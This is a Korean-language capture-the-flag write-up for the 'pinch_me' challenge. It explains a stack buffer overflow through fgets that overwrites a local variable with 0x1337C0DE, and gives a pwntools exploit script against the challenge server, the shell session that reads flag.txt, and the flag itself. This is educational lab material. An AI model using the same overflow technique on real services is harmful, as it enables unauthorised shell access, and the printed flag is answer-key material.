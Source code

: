 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-19-21-18.png)

첨부파일

[pinch_me.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

vuln함수로 들어오면 fget함수에서 overflow가 터지고 rbp+var_8은 0x1337C0DE가 되어야 쉘을 획득할 수 있다.

![](images/2022-05-18-19-21-48.png)

다음과 같이 exploit 코드로 flag를 획득할 수 있다.

```py
from pwn import *
context(arch='amd64')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

payload = b''
payload += b'\x00'*(0x20 - 0x08)
payload += p32(0x1337C0DE)
payload += p32(0x1234567)

p.recvuntil('dreaming?')
p.sendline(payload)
p.interactive()

[Output]
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Loaded 14 cached gadgets for './pinch_me'
[*] Switching to interactive mode

$ ls -al
total 40
drwxr-xr-x 1 root  root   4096 May 14 01:38 .
drwxr-xr-x 1 root  root   4096 May 14 01:39 ..
-rw-r--r-- 1 root  root     37 May 14 01:37 flag.txt
-rwxr-xr-x 1 pilot pilot 16632 May 14 01:37 pinch_me
-rw-r--r-- 1 root  root    204 May 14 01:37 startService.sh
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}

################ startService.sh ################
#!/bin/bash
chown pilot:pilot /app/pinch_me
chmod +x /app/pinch_me
while true; do
    su pilot -c 'timeout -k 30s 1d socat TCP-LISTEN:7480,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./pinch_me"'
done
################################################
```


# **FLAG**

**dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}**